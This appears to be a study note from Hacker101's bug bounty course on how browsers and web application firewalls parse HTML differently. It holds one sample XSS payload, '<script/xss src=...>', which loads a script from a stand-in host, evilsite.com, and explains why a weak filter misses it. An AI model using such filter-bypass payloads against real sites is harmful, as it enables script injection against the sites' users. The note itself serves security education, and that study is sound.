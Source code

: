 # Web in Depth: HTML
(How to do bug bounties from [hackerone](https://www.hacker101.com/start-here))

## Parsing:
HTML *should* be parsed by the relevant protocol, such as #HTML5.

### Security:
There are more things parsing the HTML than the browser. HTML is also being parsed by #Firewalls to find vulnerabilities such as #cross-site-scripting (XSS).

*If there are any discrepancies* b/w how the browser and the firewall parse the HTML, this can be leveraged by an attacker (creates a vulnerability). 

Example:
You go to `http://example.com/vulnerable?` which has a script in the HTML:
```HTML
name=<script/xss%20src=http://evilsite.com/my.js>
```
Which generates the following page:
```HTML
<!doctype html><html>
	<head>
		<title> Vulnerable page names <script/xss src=http://evilsite.com/my.js></title>
	</head>
</html>
```
A 'bad' #XSS filter on a web application may not see `script/xss` as a script tag. However Firefox's HTML parser will *treat the slash as whitespace* which enables the attack.


> [!Links]
> [hacker 101: The Web in Depth](https://www.hacker101.com/sessions/web_in_depth.html)

```
[@trshpuppy](https://twitter.com/trshpuppy)

[https://creative-florentine-747c0e.netlify.app](https://t.co/djYfw9seRp)

at [23:07](https://www.youtube.com/watch?v=beX7J6xCqIM&t=1387s) is wha
```